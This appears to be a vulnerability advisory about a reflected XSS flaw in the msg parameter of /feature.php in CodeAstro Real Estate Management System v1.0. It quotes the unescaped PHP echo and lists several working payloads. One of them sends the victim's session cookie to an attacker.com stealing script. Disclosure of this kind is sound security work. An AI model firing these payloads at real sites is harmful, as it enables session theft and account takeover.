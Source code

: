 # XSS in CodeAstro Real Estate Management System v1.0 of file /feature.php

**vender**:

- CodeAstro Real Estate Management System
- [CodeAstro - Home For All Free Source Codes](https://codeastro.com/)

**SoftLink**:

- https://codeastro.com/real-estate-management-system-in-php-with-source-code/

**Vulnerable File**

- /feature.php

**Version**

- V1.0

### POC 

```
http://www.realestate1.top/feature.php?msg=%3Cscript%3Ealert(%27XSS%27)%3C/script%3E
```

![image.png](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202508171619838.png)

### Reflected XSS Vulnerability

**Vulnerable Code:**
Lines 94–96:

```php path=feature.php mode=EXCERPT
<?php 
if(isset($_GET['msg']))	
    echo $_GET['msg'];	
?>
```

**Description:**
The GET parameter `msg` is echoed directly into the page without any sanitization or escaping, resulting in a critical reflected XSS vulnerability.

**HTTP Request to Trigger the Vulnerability:**

```http
GET /feature.php?msg=<script>alert('XSS')</script> HTTP/1.1
Host: target.com
Cookie: PHPSESSID=valid_session_id
```

**Advanced XSS Payload:**

```http
GET /feature.php?msg=<script>document.location='http://attacker.com/steal.php?cookie='+document.cookie</script> HTTP/1.1
Host: target.com
Cookie: PHPSESSID=valid_session_id
```

**URL-Encoded Bypass Payload:**

```http
GET /feature.php?msg=%3Cscript%3Ealert%28%27XSS%27%29%3C%2Fscript%3E HTTP/1.1
Host: target.com
Cookie: PHPSESSID=valid_session_id
```

**Additional XSS Vectors:**

```http
GET /feature.php?msg=<img src=x onerror=alert('XSS')> HTTP/1.1
Host: target.com
Cookie: PHPSESSID=valid_session_id
```

```http
GET /feature.php?msg=<svg onload=alert('XSS')> HTTP/1.1
Host: target.com
Cookie: PHPSESSID=valid_session_id
```

```http
GET /feature.php?msg=<iframe src=javascript:alert('XSS')></iframe> HTTP/1.1
Host: target.com
Cookie: PHPSESSID=valid_session_id
```

